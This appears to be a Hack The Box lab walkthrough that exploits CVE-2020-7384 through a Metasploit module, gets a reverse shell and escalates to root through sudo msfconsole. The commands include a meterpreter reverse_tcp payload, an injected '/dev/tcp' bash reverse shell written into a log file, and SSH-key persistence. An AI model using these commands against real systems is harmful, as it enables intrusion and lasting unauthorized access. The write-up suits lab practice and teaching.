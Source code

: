 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

---

## 🔍 Recon
```bash
nmap -sV -sC -oA scans/nmap-alltcp 10.10.10.226
```
- **Open Ports:**
  - 22 (SSH)
  - 5000 ([HTTP](HTTP) - Werkzeug server)

```bash
gobuster dir -u http://10.10.10.226:5000/ -w /usr/share/dirb/wordlists/small.txt
```

---

## 🕵️ Exploitation - CVE-2020-7384 (APK Template Injection)
### Description:
- Exploits `msfvenom` APK template injection vulnerability
- Vulnerable webapp allows APK creation with arbitrary commands

### Metasploit Module
```bash
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
```
- Set payload:
```bash
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 10.10.14.6
set LPORT 9001
set SRVHOST 10.10.14.6
```
- Run:
```bash
exploit
```
- Upload APK via web UI ➝ get shell back

---

## ⚙️ Initial Foothold Shell
### Reverse Shell Upgrade
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
reset
export TERM=xterm-256color
```

### [SSH](SSH) Persistence (Optional)
```bash
mkdir ~/.ssh
echo "<your public key>" > ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```

---

## 👀 Enumeration - User Privilege Escalation
### Hacker Submission Injection
```bash
echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1' # ." > logs/hackers
```
- Triggers a reverse shell as the next user

---

## 🔒 Root Privilege Escalation
### Sudo Permissions Check
```bash
sudo -l
```
- Allowed: `/opt/metasploit-framework-6.0.9/msfconsole` without password

### Exploit
```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```
- Within msfconsole:
```bash
!bash
```
- Gain root shell

---

## 🔑 Flags
```bash
cat /home/kiddie/user.txt
cat /root/root.txt
```

---

## 📂 Resources
- [Exploit-DB CVE-2020-7384](https://www.exploit-db.com/exploits/49445)
- [Rapid7 Module: metasploit_msfvenom_apk_template_cmd_injection](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
